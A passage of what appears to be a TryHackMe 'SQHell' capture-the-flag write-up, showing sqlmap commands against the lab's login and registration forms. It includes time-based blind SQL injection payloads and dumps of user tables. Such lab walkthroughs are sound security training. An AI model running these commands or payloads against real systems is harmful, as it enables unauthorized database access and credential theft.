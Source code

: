 ![Untitled](/assets/SQHell%20images/Untitled%205.png)

### Flag 3 & Flag 1

Next, I keep dumping the data from the 2 submit forms of `/login` and `/register`. According to the result, these submit forms are only injectable by the **time-based blind** vulnerability. Therefore, it will take a long time for the process:

```
┌──(kali㉿kali)-[~/TryHackMe/sqhell]
└─$ sqlmap -u http://sqhell.thm/login --data="username=admin&password=password" --dbs --dump-all --batch
[...]
sqlmap identified the following injection point(s) with a total of 95 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 7437 FROM (SELECT(SLEEP(5)))KizG) AND 'Dnnc'='Dnnc&password=password
---
[...]
[08:40:43] [INFO] retrieved: sqhell_2
available databases [2]:
[*] information_schema
[*] sqhell_2
[...]
Database: sqhell_2
Table: users
[1 entry]
+----+---------------------------------+----------+
| id | password                        | username |
+----+---------------------------------+----------+
| 1  | [REDACTED] | admin    |
+----+---------------------------------+----------+
```

```
┌──(kali㉿kali)-[~/TryHackMe/sqhell]
└─$ sqlmap -u http://sqhell.thm/register/user-check?username=guest --batch --dbs --dump-all
[...]
sqlmap identified the following injection point(s) with a total of 97 HTTP(s) requests:
---
Parameter: username (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=guest' AND (SELECT 1613 FROM (SELECT(SLEEP(5)))Uqqk) AND 'Snhx'='Snhx
---
[...]
[08:47:26] [INFO] retrieved: sqhell_3
available databases [2]:
[*] information_schema
[*] sqhell_3
Database: sqhell_3
Table: users
[1 entry]
+----+---------------------------------+----------+
| id | password                        | username |
+----+---------------------------------+----------+
```